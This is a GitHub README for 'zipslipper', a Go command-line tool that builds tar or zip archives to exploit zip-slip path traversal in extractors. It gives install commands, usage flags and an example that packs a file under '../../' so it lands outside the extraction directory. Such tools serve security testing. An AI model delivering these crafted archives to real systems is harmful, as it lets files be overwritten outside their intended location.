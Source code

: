 # zipslipper
Create tar/zip archives that try to exploit zipslip vulnerability.

## CLI Tool

You can use this library on the command line with the `zipslipper` command.

### Installation

```cli
go install github.com/NodyHub/zipslipper@latest
```

### Manual Build and Installation

```cli
git clone git@github.com:NodyHub/zipslipper.git
cd zipslipper
make
make install
```

## Usage

Basic usage on cli:

```shell
% zipslipper -h
Usage: zipslipper <input> <relative-path> <output-file> [flags]

A utility to build tar/zip archives that performs a zipslip attack.

Arguments:
  <input>            Input file.
  <relative-path>    Relative extraction path.
  <output-file>      Output file.

Flags:
  -h, --help                  Show context-sensitive help.
  -t, --archive-type="zip"    Archive type. (tar, zip)
  -v, --verbose               Verbose logging.
  -V, --version               Print release version information.
```

## Usage example

```shell
(main) ~/git/zipslipper% make && ./zipslipper go.mod ../../go.mod test.zip
(main) ~/git/zipslipper% unzip -l test.zip
Archive:  test.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  09-20-2024 09:41   sub/
        3  09-20-2024 09:41   sub/root
        3  09-20-2024 09:41   sub/root/outside
        3  09-20-2024 09:41   sub/root/outside/0
        3  09-20-2024 09:41   sub/root/outside/0/1
      103  09-20-2024 08:39   sub/root/outside/0/1/go.mod
---------                     -------
      115                     6 files
```

